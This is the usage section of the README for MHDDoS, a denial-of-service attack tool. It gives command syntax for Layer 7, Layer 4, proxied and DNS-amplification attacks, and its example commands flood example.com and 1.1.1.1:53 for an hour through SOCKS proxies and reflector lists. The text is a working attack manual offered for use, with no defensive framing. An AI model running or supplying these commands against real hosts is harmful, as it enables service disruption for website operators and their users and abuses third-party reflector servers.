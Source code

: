 ## Parameters
* Layer7:
   > python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 5: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 4: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 5: RPC (Requests pre connection)
  - 6: Duration (Time to finish attack in seconds)
  - 7: Debug Mode (Optional)

* Layer4 Noraml:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Debug Mode (Optional - [What is debug mode](https://github.com/MHProDev/MHDDoS/wiki/what-is-debug-mode))

* Layer4 Proxied:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=socks_type> <6=proxylist> <7=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 6: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 7: Debug Mode (Optional)

* Layer4 Amplification:
  > python3 MHDDoS/start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=refelector file> <6=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Reflectors File ([Reflectors File](https://github.com/MHProDev/MHDDoS/wiki/Amplification-ddos-attack))
  - 6: Debug Mode (Optional)


## Examples
* Layer7 (Website):
```shell script
# Running bypass attack from 101 threads, 
# with socks 5, 100 requests per proxy (connection), for 3600 seconds  
python start.py bypass https://example.com 5 101 socks5.txt 100 3600
# Running bomb attack from 50 threads (be careful must be < 300)
# with all proxies (0), 100 requests per proxy (connection), for 3600 seconds
python start.py bomb https://example.com 0 50 proxy.txt 100 3600
```

* Layer4 (Server/Home):
```shell script
# Running udp attack from 1 threads, for 3600 seconds  
python start.py udp 1.1.1.1:53 1 3600
# Running dns attack from 100 threads, for 3600 seconds  
# with reflector servers from dns.txt, for 3600 seconds  
python start.py dns 1.1.1.1:53 100 3600 dns.txt
# Running dns attack from 1000 threads
# with socks 5, for 3600 seconds  
python start.py minecraft 1.1.1.1:53 1000 3600 5 socks5.txt
```

* Debug Mode (Log Attack status):
```shell script
python start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python start.py udp 1.1.1.1:53 1 100 true
python start.py dns 1.1.1.1:53 1 100 dns.txt true
python start.py minecraft 1.1.1.1:53 1 100 5 socks5.txt true
```

* Tools/Help:
```shell script
python start.py tools
python start.py help
```